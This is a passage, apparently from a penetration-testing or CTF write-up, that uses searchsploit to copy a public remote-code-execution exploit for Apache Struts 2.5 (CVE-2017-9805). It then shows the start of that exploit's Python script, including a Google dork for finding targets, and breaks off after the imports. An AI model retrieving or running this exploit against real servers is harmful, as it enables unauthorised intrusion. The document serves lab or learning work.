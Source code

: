 	┌──(Hades㉿172.17.0.1)-[0.8:22.1]~
	└─$ searchsploit -m linux/remote/42627.py
	  Exploit: Apache Struts 2.5 < 2.5.12 - REST Plugin XStream Remote Code Execution
	      URL: https://www.exploit-db.com/exploits/42627
	     Path: /usr/share/exploitdb/exploits/linux/remote/42627.py
	File Type: UTF-8 Unicode text, with CRLF line terminators

	Copied to: /home/kali/42627.py
	```

=== "42627.py"

	``` python
	# Exploit Title: Struts 2.5 - 2.5.12 REST Plugin XStream RCE
	# Google Dork: filetype:action
	# Date: 06/09/2017
	# Exploit Author: Warflop
	# Vendor Homepage: https://struts.apache.org/
	# Software Link: http://mirror.nbtelecom.com.br/apache/struts/2.5.10/struts-2.5.10-all.zip
	# Version: Struts 2.5 – Struts 2.5.12
	# Tested on: Struts 2.5.10
	# CVE : 2017-9805

	#!/usr/bin/env python3
	# coding=utf-8
	# *****************************************************
	# Struts CVE-2017-9805 Exploit
	# Warflop (http://securityattack.com.br/)
	# Greetz: Pimps & G4mbl3r
	# *****************************************************
	import requests
	import sys
